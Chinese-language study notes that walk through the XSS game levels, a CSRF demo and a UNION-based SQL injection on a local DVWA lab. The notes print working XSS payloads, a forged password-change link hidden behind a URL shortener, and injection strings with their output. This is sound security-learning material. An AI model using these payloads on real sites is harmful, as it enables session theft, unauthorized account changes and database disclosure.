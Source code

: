 ## XSS

> XSS（Cross-Site Scripting）攻击是通过在网页中注入恶意脚本代码，当其他用户浏览该网页时，恶意脚本会在用户的浏览器中执行，从而盗取用户信息、篡改网页内容等。

测试： https://xss-game.appspot.com/

这个题目是一个逐渐变难的过程，前面用过的办法，后面都会被过滤掉。



Leve1:  没做任何转义

```html
<script>alert()</script>
```

Leve2: <script></script>标签都被过滤不能生效, 使用其他标签就可以绕过了。

**解法1:**插入一个带有无效 URL 的*图像标记*和一个将执行 JavaScript 警报的onerror属性

```html
<img src='x' onerror='alert()'>
```





Leve3: 

```html
问题1:  会截取路由的第一个参数   
chooseTab(unescape(self.location.hash.substr(1)) || "1");

问题2:  通过用单引号关闭src属性来欺骗它，然后像上一关一样添加带有警报函数的onerror属性，并使用双斜杠注释“.jpg”部分
html += "<img src='/static/level3/cloud" + num + ".jpg' />";


解法1:使用：' onerror='alert();//
<img src='/static/level3/cloud1' onerror='alert();//.jpg' />

解法2:'/><sCript>alert();</scrIpt> 因为没有处理大小写还能用script
<img src='/static/level3/cloud1'/><sCript>alert();</scrIpt>.jpg' />
```

Leve4:

```html
<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />

使用: ');alert();// 相当于让这个函数结束
<img src="/static/loading.gif" onload="startTimer('{{ ');alert();// }}');" />
```

Leve5: confim.html中的值是取自路径信息上的

```html
<a href="{{ next }}">Next >></a> 这个是取自路径信息

使用javascript:alert() 修改路径，然后点击go，在点next
...signup?next=javascript:alert() 
```

Leve6: 下面显示的内容是路径信息，就需要对路径做变化

```js
代码里面显示https不让请求资源，把https换成http    
if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
使用： data:text/plain,alert('xss')
https://xss-game.appspot.com/level6/frame#data:text/plain,alert('xss')
```

### CSRF

> CSRF（Cross-Site Request Forgery）攻击是一种利用用户身份进行未授权操作的攻击方式。攻击者通过诱导用户访问一个恶意网站或点击恶意链接，利用用户在该网站上的会话（如Cookie）向目标网站发送请求，执行一些未授权的操作，如修改个人信息、转账等。

```shell
docker pull vulnerables/web-dvwa 
docker run -d --rm  --name dvwa  -it -p 80:80 vulnerables/web-dvwa  /bin/bash


localhost:80 
admin;password
```

![image-20240907233808839](./../images/image-20240907233808839.png)

这个是一个修改密码的例子



短链接

https://xiaomark.com/



我们修改密码的链接

http://localhost/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change#

变成了这个东西

https://sourl.cn/MQkq9G 

### SQL注入

> SQL注入攻击是通过在Web表单输入或URL查询字符串中插入恶意SQL代码，当这些输入被服务器端的数据库查询处理时，攻击者可以执行任意SQL命令，从而获取数据库中的敏感信息、修改数据等。

![image-20240907234503390](./../images/image-20240907234503390.png)

输入 1' UNION SELECT 1,database() from information_schema.schemata#

提示

```js
ID: 1' UNION SELECT 1,database() from information_schema.schemata#
First name: admin
Surname: admin
ID: 1' UNION SELECT 1,database() from information_schema.schemata#
First name: 1
Surname: dvwa
```